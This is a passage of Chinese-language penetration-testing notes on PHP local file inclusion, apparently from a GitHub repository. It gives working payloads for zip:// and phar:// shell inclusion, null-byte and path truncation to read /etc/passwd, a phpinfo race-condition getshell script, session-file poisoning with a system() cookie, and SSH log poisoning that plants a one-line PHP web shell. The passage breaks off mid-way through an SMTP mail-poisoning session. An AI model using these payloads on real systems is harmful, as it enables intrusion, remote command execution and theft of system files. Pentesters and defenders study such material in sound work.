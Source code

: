 	?><br>
	利用伪协议zip，构造一个zip压缩包，打包一个shell.php，将压缩包更名为png
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/4.png)

	请求/1.php?file=zip://shell.png%23shell
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/5.png)

	也可使用phar协议访问
	/1.php?file=phar://shell.png/shell
	老版本可以使用%00截断
	/etc/passwd%00
	(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)
	/var/www/%00
	/etc/passwd/././././././.[…]/./././././.
	(需要 magic_quotes_gpc=off
	(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)
	点号截断：
	/boot.ini/………[…]…………
	(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)
  #### phpinfo-LFI 本地文件包含临时文件getshell
	利用临时文件删除时间差获取shell
	需要一个lfi漏洞+phpinfo页面
	在/tmp/目录下生成个密码为f的一句话木马g
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/6.png)

	修改脚本的phpinfo文件名称
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/7.png)

	LFI文件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/8.png)

	执行
	>python getshell.py 192.168.0.108 80 100
	80是端口、100是线程
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/9.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/10.png)

	http://192.168.0.110/index.php?file=../../../tmp/g&f=echo%20%271%27
  #### session + lfi getshell
	session.upload_progress.enabled启用时，文件上传会产生进度文件
	/var/lib/php5/sess_
	/var/lib/php/sess_

	Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
	Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
	将cookie设置为<?php system('cat /etc/passwd');?>
	包含文件/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
  #### LFI SSH Log
	>ssh '<?php system($_GET['c']); ?>'@192.168.0.107
	>ssh <?php system($_GET["cmd"]);?>@10.10.10.10
	>http://192.168.0.107/lfi.php?file=/var/log/auth.log&c=ls
  #### 邮件包含
  	root@kali:~# telnet 10.10.10.10. 25
	Trying 10.10.10.10....
	Connected to 10.10.10.10..
	Escape character is '^]'.
	220 straylight ESMTP Postfix (Debian/GNU)
	helo ok
	250 straylight
	mail from: mail@example.com
	250 2.1.0 Ok